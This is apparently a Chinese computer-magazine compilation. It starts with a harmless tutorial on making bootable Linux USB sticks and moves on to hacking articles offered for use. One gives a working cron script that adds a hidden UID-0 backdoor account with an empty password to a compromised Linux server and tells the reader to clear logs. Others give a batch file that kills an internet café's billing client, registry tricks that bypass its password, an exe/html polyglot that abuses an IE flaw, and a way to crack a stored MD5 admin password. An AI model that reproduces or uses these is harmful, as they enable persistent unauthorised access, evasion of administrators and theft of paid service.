命令行中进入 AdvanceCD 的目录中，直接键入 makeusb，程序会自动查找 U 盘，然后是格式化（一定要注意哦），并安装必要的程序文件，如图 1，我们的游戏 U 盘就诞生了。使用方法也很简单，把 U 盘插在可以使用 USB 设备启动的电脑上，重起系统，并选择从 USB 设备启动，保存 BIOS 设置然后重起就 OK 了。不过游戏就要从硬盘上找了，Advance MAME 一直做得比较小，所以可能不支持 NTFS 格式的硬盘，要把 ROM 放在 FAT 分区的硬盘中。另外，制作好的 AdvanceUSB 中有个 arcade 文件夹，里面存放的是 MAME 的相关配置、模拟类型、ROM 信息、游戏截图等等，而这些东西 MAME 的官方网站会不定期更新，可以下载下来然后放在这个文件夹中来保持 AdvanceUSB 能够支持更多游戏。

### 二、64Mb —— Damn Small Linux（难度：中）

Damn 的 U 盘制作很简单。下载 Damn 最新的 ISO 镜像文件，然后在虚拟机（比如 VMware 或者 Virtual PC，DSL 很小，在虚拟机中速度很快）中载入 Damn，让虚拟机处于全屏的工作模式，待系统完全启动后，插入 U 盘。

Damn Small Linux，50MB 的具有全功能的操作系统，基于 Knoppix 制作，使用轻量级 Fluxbox 环境，除了没找到视频播放的软件，其他的如音频播放、Word 处理、电子表格甚至 ADSL 拨号程序都包含在内。注意哦，Fluxbox 中没有“开始”，在桌面右键弹出菜单。

在桌面空白处右击鼠标，在选出菜单中选择“Apps > Tools > Install to USB Pendrive > For USB-HDD Pendrive”（具体选 USB-ZIP 还是 USB-HDD 要看主板的支持情况了），接着就会提示是否要查看已经接入的 U 盘设备，如果你对 U 盘的具体设备名不清楚的话，就按 y 查看就 OK 了。我的 U 盘是“sdb”（在 Linux 中，U 盘被模拟成 SCSI 设备挂载，因此 Linux 中挂载的 U 盘也是以 sd 开头的），所以在之后的询问设备名称（Enter the device name of pendrive）时就输入 sdb；接着是询问全新安装还是升级（Is this is an Installation or Upgrade），当然是安装，于是按 i（“u”代表升级）；之后是询问从哪里安装 DSL，因为是用虚拟机跑 LiveCD，所以按 1 确定。之后的启动选项可以直接按回车跳过，语言也一样，默认是英语。一切都准备妥当后，按 y 确认，然后程序会最后提示一次“安装过程会删除设备中所有数据”，打定主意后再按 y 继续。

最后就是看到在 U 盘中安装的过程了。如图 2 一切都运行完毕，“Damn USB Pendrive”就制作完成了。

### 三、128Mb —— Ubuntu LiveCD 配置不丢失（难度：中）

Ubuntu 的 LiveCD 用着十分方便，相信大家已经有些体会了，不过 LiveCD 模式不能保存配置的弊端，实在是太明显了，辛辛苦苦配置好的用户环境，一重启就又都消失了，没有办法么？真的只有无奈么？当然不是。来看看如何使用 U 盘保存 Ubuntu 的个人配置吧。

Ubuntu：相信大家已经很熟悉了，我就不再多说了。不过本章节与其他的内容不同的是，制作的 U 盘并不是一个系统，只是用户个人配置文件的保存地，或者是说 /home 文件夹指向的地方。因此在使用的时候需要和 Ubuntu 的 LiveCD 一起使用。

从 LiveCD 启动 Ubuntu 之后，打开一个控制台终端（“Applications > Accessories > Terminal”），然后输入 df -h，这时能看到一份挂载卷的列表，找到 U 盘的位置，这里是 sdb1（虚拟机的硬盘是 SCSI 的，它上面第一块硬盘是 sda1）。执行 sudo umount /dev/sdb1 卸载 U 盘。如果之前没有使用 U 盘的话，直接就会卸载掉了（明显的变化是桌面上 U 盘的图标消失了，不放心的话，可以再 df -h 查看一下）。接着 sudo mkfs.ext3 -b 4096 -L casper-rw /dev/sda1，这个命令会在 U 盘上创建 ext3 文件系统（文件系统——File System，FS——可能大家比较生疏，不过如果说出来 FAT32 或者 NTFS，大家应该就熟悉了，ext3 和 NTFS 一样，都是一种文件系统，只是 Linux 对 ext3 的支持更好），-L 参数用于创建一个名为“casper-rw”的 Label；之后 mkfs.ext3 会回复一些状态来显示进度，直到最后完成。

接着就重启 PC，在刚要启动 Ubuntu 的时候，通常都是按 Enter 的，这次改成 F4。（按 F4 后，系统会接受一些其他的选项来让 Ubuntu 以一种特殊的模式启动。）按下 F4 后，应该可以看到一些列传递给内核参数（以 kernel 开头的那些行），在这些参数的最后面加上一个空格，再添上“persistent”参数，然后按 Enter 启动。

最后是测试了。其实想直接看出来这个 U 盘是不是可以直接使用并不容易，比较好的办法就是修改一些个人配置，当然，要比较明显的那种，比如换个桌面，然后重启，看看再次启动的系统能不能保存下来原来的内容就知道了。

### 四、256Mb —— 轻量级 Slax（难度：低）

256 的 U 盘就不小了，装个数据什么的，已经很充裕了。不过按惯例，还是要榨一榨油水的。这次选择的版本是小巧的 Slax，身材仅 192Mb，功能却一点儿都不次。200Mb 的空白光盘售价比 700Mb 的都贵，但是拿 700Mb 的刻录 192Mb 的东西实在是不值，于是就有了这篇文章的想法——把 Slax 装在 256Mb 的 U 盘里，携带更方便，还能剩余 50Mb 的空间进行修改或者存放其他的东西。OK，一起来看看工序吧。

Slax：不到 200Mb 的 LiveCD，基于 Slackware 构建，使用完整的 KDE 环境，同时含有如 KOffice、K3b 等的强大软件，直接构建完整的办公环境。

首先，要下载 Slax（官方网站是 http://www.slax.org），最新版本是 5.18.1。然后是制作 Slax 启动 U 盘的软件——My Slax Creator（光盘中提供），这个软件对于修改 Slax 来说实在是太方便了。

- 接着…………看图吧。
1. 启动 My Slax Creator 主程序如图 3。


2. 挂载 ISO 镜像文件。我比较喜欢的方法是用虚拟光驱虚拟，然后再 MySlaxCreator 中挂载虚拟光驱的盘符，如图 4。（直接挂载镜像也可以，但是我都搞不清 U 盘和挂载的盘符的关系，每次都要绕绕，很郁闷 -_-！）


3. 添加 Modules，删除 Modules，这两个几乎没用，跳过。

4. 修改启动参数。几乎没什么需要修改的，默认就可以。不过可以修改系统的默认桌面，这一点还是很不错的，如图 5。

5. 重新创建镜像。一定要另选一个名字，不能覆盖原来的镜像。稍等一会儿创建的 ISO 就 OK 了，不刻盘的话，就直接跳过烧录 CD 一步。


6. 最后，选择一个是 USB 的盘符如图 6，然后创建 USB Stick（Create USB Stick）。软件会先提示格式化，使用 FAT 的文件系统进行格式化，关闭格式化窗口后，软件就开始自动复制内容了，等到结束，可启动 Slax 的 U 盘就制作完成了。怎么样，很轻松吧？


很简单吧？！很少有发行版像 Slax 这么贴心的。同时，Slax 具有很好可扩展性，在前面，“添加 / 删除 Modules” 的部分跳过了，如果有兴趣的话，可以从 Slax 官方下载 Module 文件添加到自己的 Slax U 盘中（直接放在 modules 文件夹下就可以了）；当然，Module 也可以自己动手做，不过太长了，这里不叙述了。

### 五、512Mb —— “Mandriva Flash” 的新鲜体验（难度：中）

首先赞一下，Mandriva 是我最喜欢的发行版。在前一段时间，Mandriva 推出了一项新的产品——Mandriva Flash，一个大约 2Gb 的 U 盘，里面装入了最新的 Mandriva Linux 2007，拥有华丽的 3D 效果、新的桌面主题管理 Metisse，并附带有大约 1Gb 的空间来保存用户的配置信息和其他文件。使用当然是相当方便了，还送一个挂绳，不过售价也不是盖的——86 美元。没钱啊，怎么办呢？来看看小小的替代品吧。

这里我选择的是 MCNLive 的 “Delft” 最终版，这个发行版基于 Mandriva 2007.1 Spring 构建，尽管没有 Office 套件（菜单中有 Office 的项，但是里面不是 OpenOffice 或 KOffice 的套件），不过其它的功能还是很全面的，尤其是多媒体和网络，而且 3D 效果等都和 Mandriva 2007.1 是一样的，还是相当不错的如图 7。跟着来看看操作方法吧。

首先从官方网站（http://www.mcnlive.org/）下载 Delft 的 ISO 镜像。启动 MCNLive 的 LiveCD，KDE 桌面环境，界面还是不错的。插入 U 盘，稍等两秒，点击“开始”菜单（类似的），再在 MCNLive 的菜单中运行制作 LiveUSB 的安装引导“Create Live USB”。完全图形化的安装方法，来看看下面的图吧。首先会看到一个创建 LiveUSB 的说明，点“OK”跳过；接着是选择 USB 设备（Select USB Device），如图 8，选中自己的 U 盘然后确定（和前面说的一样，一定要注意自己的 U 盘是什么设备）；然后就是创建过程了（Creating MCNLive USB），稍等等待就好了，比较慢如图 9；最后就 OK 了如图 10。


MCNLive 的大小大约是 350MB，所以 U 盘上的空闲空间大概要 400Mb 才够，所以用 512Mb 的 U 盘相当合适，还可以存放其他的一些文件，如 Mp3 之类。相比于 Slax，尽管同样适用 KDE 桌面环境，但是拥有 Beryl 的 MCNLive 的美观程度，还是要高那么一点点。在菜单中有关于 3D 啊，Beryl 啊，显卡啊什么的配置，大家慢慢熟悉吧，Mandriva 上手还是很容易的。

### 六、1Gb —— 终极 Knoppix 安装手册（难度：高）

最后，来看看我们的终极题目——如何在 1Gb 的 U 盘中装上 Knoppix，并且要让 Knoppix 用起来像在硬盘上一样，是能保存的。

Knoppix：元老级的 LiveCD，基于 Debian 构建，完整的 KDE 环境。每个版本都发布德语、英语两个版本，同时发行介质也是 700Mb CD 和 4.5Gb DVD（CD 版本中有超过 1.5Gb 容量的软件，而 DVD 版中超过 8Gb）两种，软件数量相当巨大，甚至包含开发类的软件；Knoppix 在 LiveCD 中有举足轻重的地位，基于 Knoppix 构建的发行版不数不胜数，比如前面的 Damn Small Linux。

首先，用 LiveCD 启动 Knoppix，在“K Menu”中选择“Set password for root”，创建一个 root 口令，继续。

接着，插入 U 盘，系统会提示是否要在新窗口中打开设备，选择 Cancel，不要打开。一般会是 sda1 或者 sdb1（比如你的硬盘是 SATA 的），再次提醒，一定要确认名字是正确的，免得格错了盘。进入“K Menu”中选择 System，选择其中的 GParted，这是一个图形界面的分区编辑软件，打开时，会提示用户输入 root 口令。在下拉菜单中选择 U 盘，然后删除 U 盘上的分区，然后将 U 盘以 FAT16 格式进行格式化（第一，一定要确定确实是这块 USB 设备；第二，备份上面的数据）。将 U 盘分成两个区，第一...块 750MB，剩下的为第二块。

接着就该对分区进行处理了，在分区一上右击，选择“Manage Flags”，勾选该新分区为“Boot”。到这里，分区的准备工作就 OK 了，然后确定。接着，KDE 会和刚才一样弹出来两个窗口询问“是否要查看 USB 设备上的文件”，一样选“No”。打开一个控制终端，输入 su，然后安装 syslinux 到 U 盘上。命令是 syslinux /dev/sda1。这里一定要注意自己的 U 盘的第一个分区是不是 sda1。

由于还要 copy 一些文件到 U 盘上，所以要把该分区挂载上。在桌面上右击 U 盘的图标，选择“mount”，然后选择“Change read/write mode”，这样就可以向 U 盘中写入文件了。这时打开 U 盘，应该只会看到一个文件——ldlinux.sys。

OK，准备向 U 盘中写入文件了。打开“K Menu > System > More Applications > File Manager - Super User Mode”，输入 root 口令来获取 root 权限。接着打开“/cdrom/boot/isolinux”目录，全选里面的文件，复制到 U 盘的根目录下。重命名 isolinux.cfg 为 syslinux.cfg，删除 isolinux.bin，这个文件没用。接着复制 KNOPPIX 目录和根目录的所有文件到 U 盘的根目录。复制过程中会提示是否覆盖“cdrom.ico”和“index.html”两个文件，选择“Overwrite All”(Skip 也可以，因为内容是一样的)，这样，U 盘中大概 700Mb 的空间就被装满了。

最后，可以对 syslinux.cfg 做一些小的修改，这个文件是 syslinux 的配置文件。在以 APPEND 开头的行的结尾部分，加上 dma noeject noprompt home=/media/sda2/knoppix.img。解释一下：

- dma：打开所有硬盘设备和 CD-ROM 的 DMA，以加快传输速度。
- noeject 和 noprompt 的意思是，不会卸载 CD，并且不会在重起时提示取出 CD。
- home=/media/sda2/knoppix.img：我们即将要做的工作，创建一个磁盘镜像，来完成类似第二部分的工作。

接着，就来创建下一个磁盘镜像——Knoppix.img，这个磁盘镜像也是用来保存用户的个人配置文件，以及对于配置文件所作的修改，甚至是安装的程序的。

方法是选择“Knoppix Menu”(挨着“K Menu”的那个按钮)，然后选择“Configure > Create a persistent KNOPPIX disk image”。程序会询问在哪个创建这个文件，这里选择 U 盘的第二个分区，程序会继续询问创建多大的镜像文件，这就要看第二块 U 盘中剩下了多少空间了，1G 的 U 盘的话，剩下 200MB 应该不成问题，而且完全塞满并不好，所以这里选择 200Mb 就好了，单击“OK”完成。

到这里，运行在 U 盘上的 Knoppix 就全部创建完成了，找个可以从 USB 设备启动的机子试试吧。

# 七、总结

OK，从 32Mb 一直到了 1Gb，以上就是本次 U 盘大作战的全部内容了，剩下的，就看大家的了。关于 LiveCD 的问题，如果有条件的话，最好还是用 CD-RW 刻录出来，然后再向 USB 中安装，速度会好一些。如果没有 CD-RW 的话，就没必要做很多 CD-R 刻录了，还是用虚拟机比较划算。在这里要注意一点，在使用 VMware 的时候，一定要让虚拟机在全屏模式下工作，因为只有在这个状态，插入 U 盘才会在虚拟机的系统中提示，如果不是全屏的话，则是在 Windows 系统环境下提示。

最后再次郑重提醒大家：制作前一定要备份 U 盘上的数据；制作的时候一定要确认一下自己 U 盘的设备名称。

>【文中所涉及的文件已经收录在光盘中。涉及发行版的官方网站及镜像下载地址列表 DistroList.txt，Slax 镜像修改工具 MYSLax_Creator.exe，U 盘启动工具 syslinux-3.36.zip】

编辑点评：这是篇不错的 USB 与 LiveCD 利用教程，浅显易懂，也不存在应用层面上的难度，毕竟 U 盘已经很普及了。不过并没有涉及制作过程中 U 盘安装 LiveCD 本质的内容。小编查看了所有制作的过程，syslinux（也附于附件中）是 LiveCD 安装到 USB 的基础，在各个安装过程中无一例外。如果读者们能够够跟进，了解一下 syslinux 的用法，那能安装到 U 盘里的 LiveCD 就远不只这几种了。

# Linux 系统后门技术（隐藏账户篇）

yxyhack

- **从本文你可以学到：**
- 在 Linux 系统中对隐藏账户的添加和驻留

每当我们欢天喜地地得到一个 Linux 系统的服务器肉鸡时，最大的愿望就是能把它永远留住。当然，永远留住是不可能的，但是我们要尽量的让它飞走。这就要用到 Linux 的后门技术了，这是项复杂的技术，本人水平有限不可能面面俱到，我希望这一系列文章能为大家提供一点思路，在您 hacking 的道路上打开一扇方便之门！

言归正传，首先，给大家简单介绍一下 Linux 的系统后门。Linux 后门的种类甚至比 Windows 下的还要多，毕竟是 GNU 操作系统，后门制作的空间也会很大。常见的一些后门技术有隐藏 S 位 shell 脚本文件、增加 root 组用户、记录破解用户密码、替换系统网络服务、可装载内核模块、rootkit 工具包等等，这些技术一直被黑客们不断地组合翻新利用着。如果大家想深入地学习一下 Linux 后门，推荐大家到 http://www.egocrew.de/ 这个网站去看看，那里有比较新的后门技术和工具，并且很多工具都有源代码。

好了，书说简短，下面让我们具体地看一下如何来制作安装和使用各种后门。今天给大家讲解隐藏账户的添加和驻留，高手应该可以跳过不看了。

现在，假设我们得到了一个 Linux 肉鸡的 shell，并且已经获得了 root 的权限，从最简单的开始，通常我们应当去添加一个超级用户。

用 vi 编辑 /etc/passwd 文件，在单独的一行中添入这样一行信息：musicyxy:x:0:0::/:/bin/sh，如图 1。


然后同样使用 vi 编辑 /etc/shadow 文件，在单独的一行中添加“musicyxy::13407:0:99999:7:::”，如图 2。


/etc/passwd 和 /etc/shadow 是 Linux 中存放用户和密码信息两个文件，用户和密码分开存放也是出于安全的考虑。编辑完成后，系统中就多了一个 musicyxy 用户，它的权限只比 root 少一点点，密码为空，这样下次我们进入这台主机的时候就可以使用 musicyxy 这个用户了。

有很多 Linux 的初学者会这样问：“为什么修改了这两个文件就多了个用户？而且还会有 ROOT 组的权限？我平时是用 useradd 命令添加用户的啊！”现在我就来给大家说明一下原理。

我们平时用的 useradd 和 passwd 命令是直接对 /etc/passwd 和 /etc/shadow 这两个文件进行修改生效的。这两个文件上面有很多字段，每个字段都有不同的意义，我下面来给大家详细说明一下。

细说明。/etc/passwd 文件用来存放系统账号信息，每个字段用“：”隔开，它们的内容分别是“用户名：密码：用户 ID：组 ID：身份描述：用户的家目录：用户登录后所使用的 SHELL”。

现在大家明白了吧？Linux 就是通过读写这个文件来设置用户信息的。

/etc/shadow 文件用来存放用户密码信息，其各个字段的意义为“用户名：密码的 MD5 加密值；数字表示自系统使用以来口令被修改的天数；数字表示口令的最小修改时间间隔；数字表示口令更改的周期；数字表示口令失效的天数；数字表示口令失效以后账号会被锁定多少天；用户账号到期时间；保留字段尚未使用”。

通过上面的说明，相信大家都会手动修改这两个文件来设置账户了吧？现在我们的超级后门用户已经设置到了系统中，但是这样明目张胆的添加用户是不是太大胆了啊？我们不妨借助其他的办法来隐藏这个用户。隐藏的方法当然有很多，这要看你对 Linux 的了解程度和 hacking 的思路，我来给大家介绍一种我自创的方法——“借尸还魂”。

按照思路，先利用 crontab（计划任务）在固定的时间做如下操作：

首先我们把正常的 passwd 和 shadow 文件备份到别的地方，然后在原目录伪造这两个文件让它们生效，最后将 musicyxy:x:0:0::/bin/sh 和 musicyxy::13407:0:99999:7::: 两条信息追加到伪造的 passwd 和 shadow 文件中，在过一段时间后将原来的正常文件还原回 /etc/目录。

这样我们就可以在伪造文件生效的时间段内登录系统，在不登录的时候，伪造文件也会自动还原为正常文件，这样不容易被管理员发现，并且在一定程度上避免了正常用户信息的损坏。

举个例子：我们可以把正常的文件放在 /tmp/ 目录中，然后利用计划任务让系统在每天下午 2-3 点把伪造的后门文件放到 /etc/目录中，接着我们就在下午 2-3 点 HACK 进肉鸡中进行操作，3 点过后后门会自动清除，正常的文件会回到 /etc 目录中，除非管理员在 2-3 点时查看 /etc/passwd，否则很难发现后门。当然，别忘了在每次登录肉鸡后把日志有选择性地清除掉！也就是说把自己的日志清除，保留其他用户的日志，关于这部分技术我会在以后的文章中告诉大家。

我把这个用户后门写成了 shell 程序，代码如下：

```bash
#!/bin/bash
echo '40 11 * * * cat /etc/passwd > /dev/ttypwd' >> /etc/door.cron;
echo '40 11 * * * cat /etc/shadow > /dev/ttysdw' >> /etc/door.cron;
echo '41 11 * * * echo "musicyxy:x:0:0::/bin/sh" >> /etc/passwd' >> /etc/door.cron;
echo '41 11 * * * echo "musicyxy::9999:0:99999:7:::" >> /etc/shadow' >> /etc/door.cron;
echo '09 12 * * * cat /dev/ttypwd > /etc/passwd' >> /etc/door.cron;
echo '09 12 * * * cat /dev/ttysdw > /etc/shadow' >> /etc/door.cron;
echo '10 12 * * * rm -f /dev/ttypwd' >> /etc/door.cron;
echo '10 12 * * * rm -f /dev/ttysdw' >> /etc/door.cron;
service crond restart;
crontab /etc/door.cron;
```

# IQ 富翁

# 简单突破网吧计费系统——网吧免费上网小结


以上就是一个具体的后门账户 shell 程序代码，我来给大家解释一下相关语句。

第一行是 Linux 中 shell 程序的开头标志，代表代码中所使用的 SHELL。


第二行是将“40 11 * * * cat /etc/passwd > /dev/ttypwd”这段信息追加到 /etc/door.cron 文件中。/etc/door.cron 是用户自定义的 crontab 列表文件，任务计划就是依据这个文件的内容来执行的。它的编写格式是 * * * * * command，前面的 5 个星分别代表分钟（0~59），小时（0~23），日期（1~31），月份（1~12），星期（0~6），星号后面加上要执行的命令。那么第二行所代表的意思就是在每天的 11 点 40 分运行 cat /etc/passwd > /dev/ttypwd。


以此为例，后面的代码相信您也能看懂了，当运行到最后一行时，就是利用 crontab 命令让文件生效。

我们来看看它执行后的效果：

11 点 39 分的时候 /etc/passwd 文件正常，没有后门账户，如图 3。

11 点 42 分，后门账户出现！多了一个 ROOT 组用户信息 musicyxy:x:0:0::/bin/sh!如图 4！

11 点 45 分，我利用后门账户登录成功，who am i 命令显示是 ROOT 用户，权限很大，如图 5。

12 点 10 分，后门账户自动隐形，和 11 点 39 分之前一样，没有什么异常，但等到明天的 11 点 40 分后，后门账户又会出现！如图 6。

这个程序在 FC6 和 THIZ7.0 下做过测试都没有问题，但是其他发行版可能需要作相应的更改，而且系统中一定要安装了 crond 服务才能正常运行。

文章至此，隐藏后门账户驻留成功！我的文章也就结束了……这篇文章非常的基础，介绍了一些 Linux 用户密码的知识，以及 crontab 命令的使用方式，完全都是 SHELL 级别的操作，适合新手学习，并且希望能给高手带来一点思路！以后我会为大家介绍更加隐蔽、更难清除、更高层次的后门，希望大家关注！今天就到这里了，BAY！

> 编辑点评：了解 Linux 还是要从外朝内慢慢渗透，毕竟是开源系统，会有许多学不完的知识。打好夯实的基础，是以后深入研究系统必备的过程。这次借着火热的夏季，就让我们沉浸在 Linux 系统的后门技术中吧！

从本文中你可以学到：

- 1. 破解万象网管的几种方法
- 2. 用批处理重命名文件以及结束进程

从开始接触电脑到现在，差不多已经两年了。上网只能在网吧上，只是囊中羞涩，自然或不自然地要与网吧的计费软件打交道，于是对网吧免费上网也有点心得了。想和大家分享一下，同时也想把这篇文章献给所有像我这样的“穷孩子”们。但是学技术...

为首，破坏就要慎用了！

对于那些什么入侵网吧计费主机帮自己加钱，在这里我就不谈了，网上教程很多。再加上一扫就是一大堆漏洞的网吧计费主机到现在已经是少之又少了（火星上也许会有吧！）现在我要讲的，主要是设置本地计算机来达到免费上网。方法如下，请参详。

# 方法一

计费软件是通过限制用户上机的时间来达到计费的目的，它在客户端启动，就像木马一样监听本地的一个端口来接收服务端发来的指令。只要一接收到关机的指令，它就会强制客户端关机。说到这里，也许你会明白这种破解方法了吧。它就是关闭本地的网络连接，从而使客户端接收不到关机的指令。操作如下：

当我们机上没有钱的时候，打开“网络连接”（从控制面板进入或者选择网上邻居的属性），将看到本地的所有网络连接，然后右键点击当前使用的连接，在弹出的菜单中选择“停用”，如图 1。


这样一来就无法接通网络了，只要等到关机的时间过了，我们又可以右键“网络连接”，选择“启用”就可以免费上网啦（有些网吧会禁用掉“网络连接”选项，我们可以下载工具来突破）当然你也可以直接拔掉网线来断网，但给网管发现可不好受哦！

# 方法二

对于万象网络妙管家 2005，它只有 clsmn.exe 和 climan.exe 这两个进程，如图 2。


其中 clsmn.exe 是主进程，climan.exe 为守护进程。如果我们结束掉主进程，它就会注销计算机。注意了，它注销而没有重启计算机。这就是一个突破点哦。因为只是注销，网吧的还原软件是不会还原系统的，也就是说注销前我们在计算机上所设置的，在注销后还会生效的。凭着这个突破点，我们可以有很多的免费上网的方法。如：上机之后删除掉计费软件的自启动项（包括 clsmn.exe 和 climan.exe 这两个启动项），然后注销，就达到了我们的目的，这种方法比较简单我就不详说了。还有一种，下面我就来详细地介绍一下：

在 IE 或者文件夹的地址中输入：C:\windows\system32，打开 System32 这个目录，找到 clsmn.exe 和 climan.exe 这两个文件，然后就分别将它们重命名，给它们胡乱起一个名字就行了，如 1111.exe 和 2222.exe，如图 3。


然后退出，打开“任务管理器”，找到 clsmn.exe 这个进程，并结束它，这时计算机会注销，注销后，没有计费软件的图标了。呵呵，我们又可以免费上网了！

小技巧：有些网吧会禁止用户打开“C:\”或者“D:\”这些本地硬盘的，我们只要在任何一处“打开”对话框中的“文件名”处输入“C:\windows\system32”，点击“打开”就可以浏览这个目录下的文件了！在这个“浏览器”中我们可以对文件进行任何操作，如图 4。


有些网吧连这个也禁止了

怎么办？不用怕！我拿出一个杀手锏给大家，不用打开目录，一步到位！操作如下：

打开记事本，输入以下内容：

```bat
Rem 重命名文件
ren C:\windows\system32\clsmn.exe iq1.exe
ren C:\windows\system32\climan.exe iq2.exe
Rem 结束进程，参数/im：后面指定进程名称；/f：强制结束进程
任何由此启动的子进程；/f：强制结束进程
taskkill /im clsmn.exe /t /f
taskkill /im climan.exe /t /f
```

然后另存为“IQkill.bat”。再双击运行它，OK！系统注销了。

小插曲：对于万象 2005 的计费软件，网上有很多关于破解它的密码的教程，但是本人觉得都比较麻烦，这里我介绍一种比较简单的方法：打开注册表项 [HKEY_CURRENT_USER\software\sicent\wx2003Clt] 找到包含有“!!!APP”、“!!!ExitCipher”、“!!!ESetCipher”、“!!!RunSetCipher”和“!!!UnlockCipher”的注册表项，如图 5。


然后把它们都删除掉，退出注册表。这时候你试一试点击计费软件的任务栏图标，选择“系统设置”如图 6。然后直接单击“进入”，可以进去啦！如图 7。

# 方法三

这种要用到“Process Explorer”这个软件，运行它选择“Agree”后，就出现了如图 8 的界面。


在其中找到“clsmn.exe”这个进程，右击它，选择“中止”，如图 9。这样计费软件就处于锁定状态，我们就可以免费上网了！


有时候在前面的操作之后，计费软件会锁定任务栏（万象 2004）就是这样的，我们可以在前面的操作之前，运行“多桌面切换系统 1.0”，如图 10。


锁定了任务栏之后，我们就按 F11 键，OK！一个新的桌面出现了，我们可以上网了！在这里提一下，“多桌面切换系统 1.0”可以突破许多“屏保型”的计费软件，如 PubWin 计费系统。因为以前有很多杂志提过，这里也说一下吧（别说我抄袭才好啊^_^）：

首先上机，运行“多桌面切换系统 1.0”，然后结帐，这样计费软件就会锁屏，这时我们只要按一下 F11 键，呵呵，一个新的桌面出现了！我们又可以上网啰！！

# 方法四

(这种方法也许有点儿可笑) 上机到快没有钱的时候，我们开足够多的游戏(只要不弄得电脑蓝屏就行了)，让系统很卡很卡，然后就是漫长的等待，而等到电脑处理完数据，开始顺畅的时候，下机的时间已经过去了，呵呵。这时我们关掉所有的游戏，又可以自由自在地上网了！呵呵，各位高手也许不用这种方法吧(太! @#$ mailto:!@#$~&!了)！我当初刚学免费上网的时候，就是用这种方法的！我在这里说出来是想和大家分享一下我的经历，也活跃一下气氛，同时想告诉大家：黑客技术没有好与坏，能达到目的就是好技术！

# 总结

网吧计费系统无非就是另一个另类的木马，我们只要像对木马一样对付它，相信，菜鸟也可以轻松地免费上网咯！再啰嗦一句，

除了入侵网吧计费系统加钱外，其它的方法无非就是一句话：阻止本地计算机关机！希望菜鸟们越飞越高！

> [文章中涉及到的工具 Process Explorer、多桌面切换系统在光盘中有收录]

编辑点评：现在很多网吧管理软件都采用了服务端通过网络监视客户端的方法，因此使用断开网络连接的方法可以破解市面上大部分的网吧管理软件，不过由于软件的保护措施不同也许有的网管软件的服务端会有所提示，大家一定要注意这点。另外一些进程管理软件允许对进程做“结束”以外的其它操作，比如“暂停”、“休眠”、“挂起”等，利用这些功能，我们也能使网吧管理软件的客户端无法正常工作，从而达到破解的目的。另外文章中的批处理中的 Taskkill 命令只有 WinXP 以上的系统才有，2000 是没有的，你就别问我 Win98 了，呵呵。

# 破解网吧下载限制之终极方法——打造属于自己的在线下载

冰晨

- 从本文中你可以学到：
- 一种另类的破解下载限制的方法

《黑客手册》07年第三期上有一篇文章讲到利用在线下载破解网吧下载限制的，编辑点评说利用的是 ActiveX 控件的，我也没有考证过。不过今天我将教大家打造属于自己的在线下载，而且不需要 ActiveX 控件的支持。

网吧都是很少打补丁的，因此这次做的在线下载就是利用了 IE 的一个漏洞。首先新建一个文本文档，然后输入以下内容：

```html
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>在线网吧下载破解 - 冰晨之网</title>
</head>
<body onload="alert('冰晨之网');document.execCommand('saveas','','flashget.exe')"></body>
<input type=button value='请耐心等待网页完全打开！' title='在线下载' onclick=execCommand('saveas','','flashget.exe') accesskey=s >
</html>
```

其中的中文大家可以打上自己想要的文字，这是做一个下载页面。然后保存为“所有文件”，并命名为 1.html，这就是一个网页文件。接下来我们要下载一个迅雷或快车或其他的下载工具的安装程序，我这里用快车，因为比较小，然后命名为 2.exe。这里我们要生成一个文件，要注意生成文件的扩展名要和前面网页文件的扩展名一样；接着把 1.html 和 2.exe 放到同一个文件夹中，我这里放到了 E:\web 中。

接下来进入 CMD，依次输入 E: 和 cd web 进入刚才的文件夹。然后执行以下命令：copy 2.exe /b +1.html/a webdown.html，如图 1。

这样你就会发现文件夹中生成了一个 webdown.html 文件了，如图 2。第一步就完成了。

如果你有自己的空间，那么你可以把刚才生成的 webdown.html 上传到你的空间去，然后用 IE 访问，会发现网页是一堆乱码，如图 3。

这时不要关闭 IE，你可以最小化 IE，不一会儿就会跳出一个对话框要你保存了，如图 4。

保存好运行它就可以用安装快车了，如图 5。

如果你没有空间，就请看下一步。

这里我推荐用杨易网盘作为空间。打开 http://webdisk.cech.com.cn/index_login.html 后点注册。进入注册页面填好信息就可以了（注意：这里需要一个邮箱，要填真实的，最好是 163 邮箱）。然后进入邮箱找到激活网址，点击激活即可（因为 163 邮箱会把刚才的信件当作垃圾邮件，所以要到垃圾邮箱里去找）。进入空间，点左下方的“个人主页”，选择 HTML 空间，填好信息后就开通了。接着点右上方的“文件管理”（就是第一个图标）。进入刚才开通的文件夹，然后点右边的“浏览文件”选择刚才生成的 webdown.html；然后点上传即可。这时你访问你的这个网页就可以看到乱码了。也就成功了！当然如果你不想费劲去做的话，也可以直接访问我做好的网页：http://web.138.io/zhizhe/webdownload.html。这是快车下载的（后来忘记改名字了，就变成迅雷了，希望大家不要误会！）

# 总结

这篇文章没有什么新技术，主要是一些 IE 的漏洞罢了！现在的网吧打补丁的没有几个，所以成功率是相当高的，希望大家能掌握好。好了，如果大家有什么问题，可以到论坛找我。我的 ID 是冰晨浪，再见！

> [文章相关的动画和网页文件已收录入光盘中]

**编辑点评**：很久不在江湖上（网吧）浪迹了，没想到又有如此简单有效的且有意思的破解下载方法出现了，真是老了我……不过我在 IE7 下实验总是出不来那个保存文件的提示，难道 IE7 真就这么硬？不过大家不要担心，因为现在还很少有网吧安装 IE7 吧！根据作者的思路，我们也可以利用 IE 的缓冲区溢出漏洞用网页木马生成器生成一个网页，下载一个并执行一个下载者就可以了，然后由下载者再下载你想要的稍微大一些的程序。理论上这种方法是行得通的，具体实践就要看各位了，也许下期的杂志我们就可以看到利用这个方法破解下载的文章了呢！

# 破解万象 2004 网管密码的几种方法

枫 & 月黯伤

- 从本文中你可以学到：
- 破解万象网管客户端密码的方法
- 不用密码进入万象系统设置的方法

说到万象2004我想大家都不会陌生，现在的大多数的网吧都采用其作为管理软件，在此同时万象 2004 也就暴露一些可以本地修改网管密码的漏洞，这样我们就修改网管密码就轻松多了，下面我就详细地介绍一下方法。

第一种：MD5 本地暴力破解。这种方法很简单，在系统文件夹下有一个名为 mcfer.dat 的文件，打开它就可以看见 32 位 MD5 数码，如图 1。

大家可以利用 MD5 速破版这个软件对 MD5 破解，还可以去一些存储 MD5 数码的网站找，具体就不介绍了，利用得到的密码就可以很容易地进入万象的“系统设置”里修改网管密码了。

